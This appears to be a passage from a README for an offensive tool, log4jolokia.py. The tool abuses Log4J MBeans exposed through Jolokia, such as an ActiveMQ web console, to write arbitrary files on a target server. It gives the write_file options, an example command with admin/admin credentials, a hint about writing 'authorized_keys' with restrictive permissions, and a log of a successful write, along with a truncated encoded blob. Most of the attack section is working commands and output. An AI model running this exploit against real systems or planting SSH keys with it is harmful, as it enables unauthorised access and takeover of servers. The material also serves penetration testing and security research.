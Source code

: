```
TEVTU09QRU49fCAvdXNyL2Jpbi9sZXNzcGlwZSAlcwBNQUlMPS92YXIvbWFpbC9jdGYAVVNFUj1jdGYATENfVElNRT1maV9GSS5VVEYtOABTSE***TRUNCATED***
```

#### Write files:

By creating and loading a malicious Log4J configuration, we can leverage the value of "RollingFile -> fileName" (where to write) and "Pattern" (what to write) parameters in order to write arbitrary content into arbitrary locations. In this case we create malicious Log4J configurations in the XML format and leverage the "setConfigText(String, String)" function.

**Note**: For writing complex binary files, as the XML format has specific [restricted control characters](https://en.wikipedia.org/wiki/Valid_characters_in_XML), other supported configuration formats (e.g. Properties) have been leveraged in a 2-step write process.

Help - Write File Specific Parameters:
```
$ python3 log4jolokia.py write_file http://a -h

  ***TRUNCATED***

  -lf [LOCAL_FILE], --local_file [LOCAL_FILE]
                        Path to local file to be written on the target (Use only with mode: write_file)
  -w [WRITE], --write [WRITE]
                        Path of file to be written on the target (Use only with mode: write_file)
  -P [PERM], --perm [PERM]
                        Permissions of the file written on the target. Useful for files like "authorized_keys" that require "rw-------". (Default value is "rwxrwx---") (Use only with mode: write_file)
  --tmp_dir [TMP_DIR]   Location of a writable directory. (Default value is "/tmp")
                        		E.g. Unix == /tmp
                             		Windows == C:/Users/Public

Example command:
	python3 log4jolokia.py write_file http://127.0.0.1:8161/console/jolokia/ -lf 00-ff.txt -w /tmp/test_write -u admin -p admin -H 'Origin: http://localhost'
```

Example - Write "test" to "/tmp/test":
```
$ echo test > t.txt
$ python3 log4jolokia.py write_file http://127.0.0.1:8161/console/jolokia/ -u admin -p admin -H 'Origin: http://localhost' -lf t.txt -w /tmp/test --proxy http://127.0.0.1:8080
[.] Looking for "org.apache.logging.log4j2" mbeans in http://127.0.0.1:8161/console/jolokia/list
[+] Found Log4J Mbean org.apache.logging.log4j2:type=21263314
[+] Found Log4J Mbean org.apache.logging.log4j2:type=76ed5528
[.] Reading content from t.txt
[.] Generating Log4J configuration
[+] Generated Log4J XML configuration
[.] Using a double setConfigText in order to flush the buffer
[.] Using setConfigText to load the Log4J XML configuration
[+] Successfully called setConfigText()
[.] Checking that the file "/tmp/test" was written successfully on the target
[+] File "/tmp/test" has been successfully written on the target
```
